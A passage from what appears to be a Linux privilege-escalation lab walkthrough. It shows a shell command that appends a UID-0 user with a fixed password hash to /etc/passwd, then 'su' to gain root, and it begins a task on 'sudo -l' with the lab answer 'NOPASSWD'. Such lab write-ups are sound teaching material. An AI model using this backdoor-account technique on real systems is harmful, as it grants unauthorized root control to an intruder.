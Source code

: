 ```
echo new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash >> /etc/passwd
```

>As seen earlier, we can redirect a command's output and write it where we please, the `>>` operator concatenates the stdout of the command to the file that we specify.
>
><span class="pink">Be careful not to use the</span> `>` <span class="pink">operator, this will rewrite the whole file!</span>

Here we go! We have created a new user with root privileges and now we only need to log in :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/gaining%20root6.png" class="border" />

```
su new
```
>`su` stands for "switch user", so what we have done is change our account to the one we created and voilà, we have escalated privileges.

## Task 7 : Escaping vi editor

Another must when it comes to privilege scalation is running `sudo -l` when we get a shell, this command will display what commands we can run as superuser.

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/gaining%20root6.png" class="border" />

```
sudo -l
```

* * *
<span class="answer">Answer : NOPASSWD</span>
* * *
